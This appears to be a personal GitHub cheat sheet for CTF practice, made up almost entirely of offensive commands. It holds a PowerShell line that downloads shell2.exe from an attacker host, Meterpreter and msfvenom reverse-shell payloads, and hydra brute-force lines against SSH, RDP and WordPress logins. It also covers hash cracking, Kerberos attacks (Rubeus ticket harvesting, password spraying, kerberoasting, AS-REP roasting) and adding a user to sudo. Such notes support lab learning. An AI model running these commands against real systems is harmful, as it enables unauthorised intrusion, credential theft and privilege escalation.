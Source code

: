 # writeUp
Just my write up for CTF

# cheat sheet

## SUID
use **suid3num.py**
```console
$ find / -user root -perm -4000 -exec ls -ldb {} \; 2> /dev/null # scan the whole file system to find all files with the SUID bit set that is own by root
$ find / -perm -4000 -exec ls -ldb {} \; 2> /dev/null
$ find / -perm -u=s -type f 2>/dev/null
$ find / -perm -4000 -exec ls -ldb {} \; 2> /dev/null # same as about but own by any user
$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null # both SUID and SUIG
```
## nmap
```console
$ nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse $IP #smb
$ nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount $IP # rpcbind
```
## powershell
```
powershell -command "IEX (New-Object System.Net.WebClient).Downloadfile('http://<ip>:<port>/shell2.exe','shell2.exe')"
powershell -c "Invoke-WebRequest -Uri 'web' -OutFile 'out'"
```
## gobuster
```console
$ gobuster dir -u http://$IP/ -w /usr/share/SecLists/Discovery/Web-Content/big.txt -x .php,.txt,.html -t 54
```
## Password atk
### Hashcat
```console
$ hashcat -m <op> -a 0 -o crack.txt 'hash' /usr/share/wordlists/rockyou.txt --force
$ hashcat -m 13100 -a 0 hash.txt Pass.txt --force # kerberos 
```
### john
```console
root@kali:~# john -wordlist=/usr/share/wordlists/rockyou.txt <hash>
```
### hydra
credit noxtal cheatsheet, check [here](https://noxtal.com/cheatsheets/2020/07/24/hydra-cheatsheet/)
```console
$ hydra -f -l user -P /usr/share/wordlists/rockyou.txt $IP -t 64 ssh
$ hydra -f -t 64 -l user -P /usr/share/wordlists/rockyou.txt $IP mysql
$ hydra -f -t 64 -l user -P /usr/share/wordlists/rockyou.txt $IP ftp
$ hydra -f -t 64 -l user -P /usr/share/wordlists/rockyou.txt $IP smb
$ hydra -t 64 -l user -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/login.php:username=^USER^&password=^PASS^:Login Failed"
$ hydra -f -t 64 -l user -P /usr/share/wordlists/rockyou.txt $IP -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' #wordpress
$ hydra -f -t 64 -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$IP
$ hydra -t 64 -l username -P /usr/share/wordlists/rockyou.txt pop3://$IP #pop3
```
## Reverse SSH port forwarding
```console
$ ssh -L <LPORT>:<RHOST>:<RPROT> <username>@$IP
```

## TTY shell
```console
$ python -c 'import pty; pty.spawn("/bin/sh")'
$ echo os.system('/bin/bash')
$ /bin/sh -i
```
## msfconsole
### linux
```
use multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST [HOST IP]
set LPORT [LISTENING_PORT]
exploit
```
## msfvenom
### php
```
msfvenom -p php/meterpreter/reverse_tcp lhost=tun0 lport=1234 R
```
## curl
```console
kali@kali:~$ curl http://10.10.10.204:8081/ctf/get
thm{162520bec925bd7979e9ae65a725f99f}kali@kali:~$ ^C
kali@kali:~$ curl -d 'flag_please' http://10.10.10.204:8081/ctf/post
thm{3517c902e22def9c6e09b99a9040ba09}kali@kali:~$ ^C
kali@kali:~$ curl http://10.10.10.204:8081/ctf/getcookie
Check your cookies!kali@kali:~$ curl http://10.10.10.204:8081/ctf/getcookie -i
HTTP/1.1 200 OK
Set-Cookie: flag=thm{91b1ac2606f36b935f465558213d7ebd}; Path=/
Date: Fri, 17 Jul 2020 12:44:02 GMT
Content-Length: 19
Content-Type: text/plain; charset=utf-8

Check your cookies!                                                                                               
kali@kali:~$ curl http://10.10.10.204:8081/ctf/sendcookie -i --cookie flagpls=flagpls                                                         
HTTP/1.1 200 OK                                                                                    
Date: Fri, 17 Jul 2020 12:46:55 GMT                                                                
Content-Length: 37                                                                                 
Content-Type: text/plain; charset=utf-8

thm{c10b5cb7546f359d19c747db2d0f47b3}
```


## Attacking Kerberos
### kerbrute: user enum
```Console
$ ./kerbrute userenum --dc example.local -d example.local users.txt
```
https://github.com/GhostPack/Rubeus
### Harvesting Tickets
on victim machine
```powershell
$ ./Rubeus.exe harvest /interval:30 # harvest for TGTs every 30 seconds
```
### Brute-Forcing / Password-Spraying
Before password spraying with Rubeus, you need to add the domain controller domain name to the windows host file. You can add the IP and domain name to the hosts file from the machine by using the echo command: ```echo <ip> example.local >> C:\Windows\System32\drivers\etc\hosts```
```powershell
$ ./Rubeus.exe brute /password:<password> /noticket # This will take a given password and "spray" it against all found users then give the .kirbi TGT for that user 
```
### Kerberoasting
on kali, `hashcat -m 13100`
#### Rubeus
on victim machine
```powershell
$ ./Rubeus.exe kerberoast
```
#### Impacket
```console
$ sudo python3 GetUserSPNs.py example.local/username:password -dc-ip $IP -request
```
### AS-REP Roasting
on kali, `hashcat -m 18200`
#### Rubeus
on victim machine
```powershell
$ ./Rubeus.exe asreproast
```
#### impacket
```shell
# check ASREPRoast for all domain users (credentials required)
python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# check ASREPRoast for a list of users (no credentials required)
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

## etc
```console
$ usermod -aG sudo [user] # adds a user to the Sudo Group on Linux:
```